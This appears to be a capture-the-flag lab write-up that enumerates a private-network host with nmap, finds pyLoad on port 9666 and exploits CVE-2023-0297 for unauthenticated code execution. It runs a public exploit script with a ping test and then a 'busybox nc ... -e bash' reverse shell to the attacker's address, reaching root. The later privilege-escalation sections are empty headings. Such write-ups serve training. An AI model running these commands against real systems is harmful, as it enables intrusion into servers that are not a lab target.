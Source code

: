 #Pwned! 
```IP
192.168.192.26
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.192.26 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBYESg2KmNLhFh1KJaN2UFCVAEv6MWr58pqp2fIpCSBEK2wDJ5ap2XVBVGLk9Po4eKBbqTo96yttfVUvXWXoN3M=
|   256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBdIs4PWZ8yY2OQ6Jlk84Ihd5+15Nb3l0qvpf1ls3wfa
9666/tcp open  http    syn-ack ttl 61 CherryPy wsgiserver
|_http-favicon: Unknown favicon MD5: 71AAC1BA3CF57C009DA1994F94A2CC89
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Cheroot/8.6.0
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
| http-title: Login - pyLoad 
|_Requested resource was /login?next=http://192.168.192.26:9666/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## HTTP 9666
PyLoad
```py
CVE-2023-0297
```


# Exploitation
We test unauthenticated remote code execution with the following exploit
https://www.exploit-db.com/exploits/51532
```
python cve-2023-0297.py -u http://192.168.192.26:9666 -c 'ping -c 5 192.168.45.204'
```
Indeed we are able to execute commands
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205092835.png?raw=true)
```
python cve-2023-0297.py -u http://192.168.192.26:9666 -c 'busybox nc  192.168.45.204 4444 -e bash'
```
And we get a root shell inmediately
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205093214.png?raw=true)

# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz

# Lateral Movement

